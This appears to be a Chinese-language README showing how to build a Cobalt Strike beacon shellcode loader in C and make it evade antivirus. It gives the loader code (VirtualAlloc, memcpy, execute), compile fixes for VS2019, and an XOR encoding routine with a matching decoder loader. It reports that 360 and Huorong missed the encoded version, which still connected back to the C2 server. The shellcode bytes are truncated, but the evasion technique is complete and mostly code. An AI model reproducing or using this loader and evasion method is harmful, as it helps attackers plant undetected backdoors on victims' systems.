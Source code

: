 # 0x00 shellcode测试
Cobalt Strike 4.2  
创建监听器beacon http  
Attacks->Packages->Payload Generator（选择之前创建的监听器，输出C格式，勾选x64）  
生成的代码如下
```
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

/* length: 891 bytes */
unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00...";

int main() {
    char* old= VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(old, buf, sizeof(buf));
    ((void(*)())old)();
    return 0;
}
```
下载并安装VS2019，安装时勾选C++和windows这2类，创建windows控制台项目

直接在VS2019下编译会有类型匹配问题，进行强制类型转换的修改，能成功编译的代码如下
```
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

// length: 891 bytes
unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41...";
int main() {
    char* old = (char *)VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(old, buf, sizeof(buf));
    ((void(*)())old)();
    return 0;
}
```
经测试，编译执行后能够成功上线

拷贝到windows server 2008下  
首次复制到虚拟机的时候，360直接给删除了  
再次复制时，没有删除，而且扫描后也没有提示病毒（怀疑它是判断为虚拟机，故行为改变）  
但使用火绒扫描后，提示病毒，如下图  
![image](./pic/0.png)

# 0x01 shellcode免杀
使用如下C代码，对shellcode进行简单编码（每个字节和数字1进行异或）
```
#include <stdio.h>

unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00...";

int a = 1;
int b = sizeof(buf);
unsigned char str[891] = { 0 };

int main() {

    printf("char array length=%d\n", b);
    printf("\n");

    for (int i = 0; i < b; i++) {
        str[i] = buf[i] ^ a;
    }

    for (int i = 0; i < b; i++) {
        printf("\\x%x", str[i]);
    }
    
    return 0;
}
```
拷贝上述输出的shellcode到下述代码的字符数组中
```
#include <stdio.h>
#include <windows.h>
unsigned char buf[] = "\xfd\x49\x82\xe5\xf1\xe9\xc9\x1...";

int main() {
    for (int i = 0; i < sizeof(buf); i++) {
        _InterlockedXor8( (volatile char *)buf + i, 1 );
    }
    char* old = (char *)VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(old, buf, sizeof(buf));
    ((void(*)())old)();
    return 0;
}
```
编译执行后，能成功连接到CS  
拷贝到windows server 2008下  
360安全卫士、360杀毒、火绒均未提示  
扫描后也未提示，如下图  
![image](./pic/1.png)  
执行后能成功连接到CS，如下图  
![image](./pic/2.png)
